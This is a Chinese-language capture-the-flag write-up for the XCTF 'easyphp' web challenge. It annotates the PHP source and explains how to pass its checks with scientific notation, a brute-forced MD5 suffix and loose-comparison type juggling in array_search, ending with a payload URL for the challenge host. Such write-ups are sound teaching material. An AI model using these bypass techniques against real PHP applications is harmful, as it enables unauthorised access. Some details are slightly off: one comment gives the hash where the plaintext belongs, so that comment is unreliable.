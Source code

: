 ```yaml
---
title: xctf web easyphp的题解
categories: WebSec
tags: 
- XCTF
---
```


php源码的分析

# Step 1
常规三件套
1. source code
2. dirsearch
3. bp sniffer
# php代码分析
```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    // a需要满足大于6000000，且a的长度小于3，直接使用科学计数法，传入a=9e9(9e9=9*10^9)
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        // 截取后6位 md5碰撞看后文
        // a=9e9
        // b=60cca3b3b32c6b43197e48375b8b184b
        $key1 = 1;
        }else{
            die("Emmm...再想想");
        }
    }else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']); # 传入一个json字符串
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        // 字符串与int匹配是会将字符串int化
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
            // die =break
        }
        $key2 = 1;  
        // 既要有DGGJ 又要没有，绕过一个函数
        // 
        // c={"m":"2023aa","n":[[1],0]}

    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?>
```
# 基本思路
传入的值符合条件能够执行`hgfks.php`就能获取`flag`
就是找到能定义key的传入的值
![imag](https://picdl.sunbangyan.cn/2023/10/29/ab41ea876e0bbf95e6eadb5348310d3c.png)

# 碰撞md5
以下是关于 Python 中 hashlib 库使用 MD5 算法的简单教程：

1. 导入 hashlib 模块：

```python
import hashlib
```

2. 创建 hashlib 对象：

```python
hash_object = hashlib.md5()
```

3. 更新哈希对象的输入值：

```python
hash_object.update(b"Hello World")
```

这里的 `b"Hello World"` 是要进行哈希运算的原始输入。注意，字符串需要以字节表示形式传递给 `update` 方法。

4. 获取哈希摘要：

```python
digest = hash_object.hexdigest()
print(digest)
```

`hexdigest()` 方法返回哈希对象的摘要，并以字符串形式表示。在上述示例中，我们将其打印到控制台。

完整的示例代码如下：

```python
import hashlib

hash_object = hashlib.md5()
hash_object.update(b"Hello World")
digest = hash_object.hexdigest()
print(digest)
```

运行以上代码，将会输出类似于 `b10a8db164e0754105b7a99be72e3fe5` 的哈希摘要。

简单的脚本
```python
import  random
import  hashlib
import sys
def xctf():
    value="8b184b"
    while 1:
        plain=random.randint(10**11,10**12-1)
        plain=str(plain)
        Md5=hashlib.md5()
        Md5.update(plain.encode(encoding="utf-8")) #编码后是字节
        cipher=Md5.hexdigest()
        if  cipher[-6:]==value:
            print("cipher",cipher)
            print('plain',plain)
            break   
sdtout:
cipher 60cca3b3b32c6b43197e48375b8b184b
plain 667791940608
```

#  综上所述

> **PlayLoad**

`http://61.147.171.105:61657/?a=9e9&b=667791940608&c={"m":"2023aa","n":[[1],0]}`
